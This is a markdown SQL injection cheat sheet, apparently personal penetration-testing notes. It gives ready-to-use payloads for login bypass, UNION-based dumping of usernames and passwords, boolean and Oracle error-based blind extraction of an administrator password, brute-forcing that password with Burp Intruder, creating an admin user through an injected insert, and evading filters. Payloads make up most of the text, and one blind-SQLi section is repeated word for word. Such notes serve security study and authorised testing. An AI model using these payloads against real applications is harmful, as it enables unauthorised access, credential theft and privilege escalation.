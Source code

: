 # SQLi notes

#### Testing booleans (for BSQLi)
Remember to try `AND` `OR` `HAVING`  
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  
Once we have the length of the password we can bruteforce with a python script or intruder.
For intruder we use cluster bomb, and use the grep option to flag responses we know differ in `FALSE` and `TRUE`  
`b' OR (select substring (password,§1§,1) from users where username='administrator')='§a§`  

#### BlindSQL:
Truth must be "infered" generally with a sleep function, a 500 response, or DNS callout to webhooks/collaborator

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  

#### Example PoCs: [BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py) [BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and then `pass` in password field  
`' or 1 =1 LIMIT 1,1#`

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate version:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  


### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)
